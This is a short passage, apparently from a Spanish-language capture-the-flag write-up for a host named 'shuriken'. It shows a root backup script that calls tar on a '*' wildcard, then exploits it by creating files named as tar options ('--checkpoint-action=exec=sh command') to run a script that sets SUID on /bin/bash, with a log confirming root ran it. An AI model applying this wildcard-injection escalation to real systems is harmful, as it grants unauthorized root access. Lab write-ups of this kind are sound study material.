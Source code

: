 ### Contenido del archivo backupsrv.sh

```bash
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest
```
En este script utiliza * para seleccionar todos los archivos dentro del directorio Documents con el objetivo de realizar backups cada cierto tiempo con el comando **tar**. Esto se puede aprovechar creando archivos con nombres de parámetros adicionales para que asi **tar** los interprete.

```bash
server-management@shuriken:~/Documents$ touch -- --checkpoint=1
server-management@shuriken:~/Documents$ ls
'--checkpoint=1'
server-management@shuriken:~/Documents$ touch -- --checkpoint-action=exec='sh command'
server-management@shuriken:~/Documents$ ls
'--checkpoint-action=exec=sh command'  '--checkpoint=1'
server-management@shuriken:~/Documents$ nano command
server-management@shuriken:~/Documents$ cat command
#!/bin/bash

chmod u+s /bin/bash
server-management@shuriken:~/Documents$ chmod +x command
```

```bash
2025/02/03 20:10:01 CMD: UID=0     PID=18453  | tar czf /var/backups/shuriken-Monday.tgz --checkpoint=1 --checkpoint-action=exec=sh command command 
```
